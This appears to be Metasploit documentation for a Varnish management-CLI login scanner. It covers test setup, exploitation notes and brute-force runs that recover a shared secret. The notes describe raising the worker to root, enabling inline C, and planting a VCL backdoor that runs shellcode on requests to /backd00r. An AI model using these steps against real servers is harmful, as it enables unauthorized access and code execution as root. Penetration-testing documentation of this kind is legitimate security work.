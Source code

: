 ## Vulnerable Application

  Ubuntu 14.04 can `apt-get install varnish`.  At the time of writing that installed varnish-3.0.5 revision 1a89b1f.
  Kali installed varnish-5.0.0 revision 99d036f

  Varnish installed and ran the cli on localhost.  First lets kill the service: `sudo service varnish stop`.  Now, there are two configurations we want to test:

  1. No Authentication: `varnishd -T 0.0.0.0:6082`. Varnish 4 and later require either passing '-S ""', or may not support unauthenticated mode at all.
  2. Authentication (based on shared secret file): `varnishd -T 0.0.0.0:6082 -S file`.
    1. I made an easy test one `echo "secret" > ~/secret`

## Exploitation Notes

These notes were taken from the original module in EDB, and can be used when developing a working remote exploit

```
- varnishd typically runs as root, forked as unpriv.
- 'param.show' lists configurable options.
- 'cli_timeout' is 60 seconds. param.set cli_timeout 99999 (?) if we want to inject payload into a client thread and avoid being killed.
- 'user' is nobody. param.set user root (may have to stop/start the child to activate)
- 'group' is nogroup. param.set group root (may have to stop/start the child to activate)
- (unless varnishd is launched with -r user,group (read-only) implemented in v4, which may make priv esc fail).
- vcc_unsafe_path is on. used to 'import ../../../../file' etc.
- vcc_allow_inline_c is off. param.set vcc_allow_inline_c on to enable code execution.
- code execution notes:

* quotes must be escaped \"
* \n is a newline
* C{ }C denotes raw C code.
* e.g. C{ unsigned char shellcode[] = \"\xcc\"; }C
* #import <stdio.h> etc must be "newline", i.e. C{ \n#include <stdlib.h>\n dosomething(); }C (without 2x \n, include statement will not interpret correctly).
* C{ asm(\"int3\"); }C can be used for inline assembly / shellcode.
* varnishd has it's own 'vcl' syntax. can't seem to inject C randomly - must fit VCL logic.
* example trigger for backdoor:

VCL server:
  vcl.inline foo "vcl 4.0;\nbackend b { . host = \"127.0.0.1\";  } sub vcl_recv { if (req.url ~ \"^/backd00r\") { C{ asm(\"int3\"); }C } } \n"
  vcl.use foo
  start

Attacker:
  telnet target 80
  GET /backd00r HTTP/1.1
  Host: 127.0.0.1

(... wait for child to execute debug trap INT3 / shellcode).

CLI protocol notes from website:

The CLI protocol used on the management/telnet interface is a strict request/response protocol, there are no unsolicited transmissions from the responding end.

Requests are whitespace separated tokens terminated by a newline (NL) character.

Tokens can be quoted with "..." and common backslash escape forms are accepted: (\n), (\r), (\t), (
), (\"), (\%03o) and (\x%02x)

The response consists of a header which can be read as fixed format or ASCII text:

    1-3      %03d      Response code
    4        ' '       Space
    5-12     %8d       Length of body
    13       \n        NL character.
Followed by the number of bytes announced by the header.

The Responsecode is numeric shorthand for the nature of the reaction, with the following values currently defined in include/cli.h:

enum cli_status_e {
        CLIS_SYNTAX     = 100,
        CLIS_UNKNOWN    = 101,
        CLIS_UNIMPL     = 102,
        CLIS_TOOFEW     = 104,
        CLIS_TOOMANY    = 105,
        CLIS_PARAM      = 106,
        CLIS_OK         = 200,
        CLIS_CANT       = 300,
        CLIS_COMMS      = 400,
        CLIS_CLOSE      = 500
};
```

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/varnish/varnish_cli_login```
  4. Do: ```run```
  5. Find a valid login.

## Options

  **PASS_FILE**

  File which contains the password list to use.

## Scenarios

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f and NO AUTHENTICATION

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: No Authentication Required
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf auxiliary(varnish_cli_login) >
    ```

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f

  ```
    resource (varnish.rc)> use auxiliary/scanner/varnish/varnish_cli_login
    resource (varnish.rc)> set pass_file /root/varnish.list
    pass_file => /root/varnish.list
    resource (varnish.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish.rc)> set verbose true
    verbose => true
    resource (varnish.rc)> run
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - Authentication Required
    [!] 192.168.2.85:6082     - No active DB -- Credential data will not be saved!
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: bad
    [*] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN FAILED: good
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: secret
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

